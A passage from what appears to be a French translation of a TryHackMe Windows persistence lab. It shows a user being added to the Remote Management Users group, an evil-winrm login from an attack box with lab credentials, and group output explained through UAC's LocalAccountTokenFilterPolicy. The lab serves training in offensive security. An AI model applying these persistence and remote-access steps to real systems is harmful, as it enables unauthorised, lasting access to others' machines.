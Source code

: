 Invite de commande

```
C:\> net localgroup "Remote Management Users" thmuser1 /add
```

Nous supposerons que nous avons déjà vidé les informations d'identification sur le serveur et que nous disposons du mot de passe de thmuser1. Connectons-nous via WinRM en utilisant ses informations d'identification :

| Nom d'utilisateur | thmuser1 |
|-------------------|-----------------|
| Mot de passe | Mot de passe321 |

Si vous essayez de vous connecter maintenant depuis la machine de votre attaquant, vous seriez surpris de voir que même si vous faites partie du groupe Opérateurs de sauvegarde, vous ne pourrez pas accéder à tous les fichiers comme prévu. Une vérification rapide de nos groupes attribués indiquerait que nous faisons partie des opérateurs de sauvegarde, mais le groupe est désactivé :

Boîte d'attaque

```
user@AttackBox$ evil-winrm -i MACHINE_IP -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Cela est dû au contrôle de compte d'utilisateur ( UAC ). L'une des fonctionnalités implémentées par l'UAC,  LocalAccountTokenFilterPolicy , supprime tout compte local de ses privilèges administratifs lors de la connexion à distance. Bien que vous puissiez élever vos privilèges via l'UAC à partir d'une session utilisateur graphique (En savoir plus sur l'UAC [ici](https://tryhackme.com/room/windowsfundamentals1xbx) ), si vous utilisez WinRM, vous êtes limité à un jeton d'accès limité sans privilèges administratifs.
